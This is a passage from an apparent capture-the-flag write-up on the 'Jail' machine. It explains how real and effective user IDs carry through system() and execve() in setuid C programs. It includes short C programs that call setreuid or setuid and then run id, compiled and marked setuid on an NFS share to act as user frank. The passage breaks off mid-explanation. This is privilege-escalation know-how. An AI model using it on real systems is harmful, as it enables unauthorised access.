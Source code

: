 So `system` calls `/bin/sh sh -c id`, which is effectively `/bin/bash bash -c id`. When `bash` is called, with no `-p`, then it sees `ruid` of 99 and `euid` of 1000, and sets `euid` to 99.

### setreuid / system <a href="#setreuid--system" id="setreuid--system"></a>

To test that theory, I’ll try replacing `setuid` with `setreuid`:

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setreuid(1000, 1000);
    system("id");
    return 0;
}
```

Compile and permissions:

```
oxdf@hacky$ gcc b.c -o /mnt/nfsshare/b; chmod 4755 /mnt/nfsshare/b
```

Now on Jail, now `id` returns uid of 1000:

```
bash-4.2$ $ ./b
uid=1000(frank) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```

The `setreuid` call set both `ruid` and `euid` to 1000, so when `system` called `bash`, they matched, and things continued as frank.

### setuid / execve <a href="#setuid--execve" id="setuid--execve"></a>

Calling `execve` If my understanding above is correct, I could also not worry about messing with the uids, and instead call `execve`, as that will carry though the existing IDs. That will work, but there are traps. For example, common code might look like this:

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    execve("/usr/bin/id", NULL, NULL);
    return 0;
}
```

Without the environment (I’m passing NULL for simplicity), I’ll need a full path on `id`. This works, returning what I expect:
